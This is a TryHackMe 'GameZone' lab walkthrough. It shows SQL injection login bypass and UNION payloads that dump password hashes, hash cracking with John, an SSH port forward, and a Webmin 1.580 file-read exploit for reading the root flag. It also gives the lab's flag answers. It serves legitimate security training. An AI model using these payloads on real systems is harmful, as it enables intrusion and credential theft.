# TryHackMe — GameZone Walkthrough

## Enumeration

Started with Nmap:
```bash
nmap -sC -sV TARGET_IP
```


Found 2 open ports:
- Port 22: SSH (OpenSSH 7.2p2)
- Port 80: HTTP (Apache 2.4.18)

Visited the web server. The main character is Agent 47 from Hitman.



**Task 1 Answer:** `agent 47`

## SQL Injection

The login form is vulnerable to SQL injection. Used bypass:
```
' or 1=1 -- -
```

This bypasses authentication and lands on `portal.php`.



**Task 2 Answer:** `portal.php`

## Database Enumeration

Used manual SQLi to enumerate the database through the search field.

Found column count with ORDER BY:
```sql
' ORDER BY 3-- -
```


Enumerated databases:
```sql
' union select 1,2, schema_name FROM information_schema.schemata; -- -
```

Found tables in `db` database:
```sql
' union select 1,2, TABLE_NAME FROM information_schema.TABLES WHERE table_schema='db';-- -
```


Extracted credentials from users table:
```sql
' union select 1, username, pwd from users;-- -
```



Found: `agent47:ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

## Hash Cracking

Identified hash as SHA2-256:



Cracked with John:
```bash
echo "agent47:ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14" > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```



**Task 3 Answer:** `videogamer124`

## Initial Access

SSH with cracked credentials:
```bash
ssh agent47@TARGET_IP
```



Got user flag:



**Task 4 Answer:** `649ac17b1480ac13ef1e4fa579dac95c`

## Privilege Escalation

Ran LinPEAS for enumeration:



Found port 10000 listening locally (not visible from outside):



Found Webmin 1.580 installed:
```bash
cat /etc/webmin/version
```



**Task 5 Answers:**
- Hidden service port: `10000`
- CMS version: `1.580`

## SSH Port Forwarding

Set up local port forward to access webmin:
```bash
ssh -L 10000:localhost:10000 agent47@TARGET_IP
```



Accessed webmin at `http://localhost:10000`:



Logged in with same credentials (agent47:videogamer124):



## Webmin Exploitation

Webmin 1.580 has arbitrary file read vulnerability in `/file/show.cgi`. Read root flag directly:
```
http://localhost:10000/file/show.cgi/root/root.txt
```



**Task 6 Answer:** `a4b945830144bdd71908d12d902adeee`
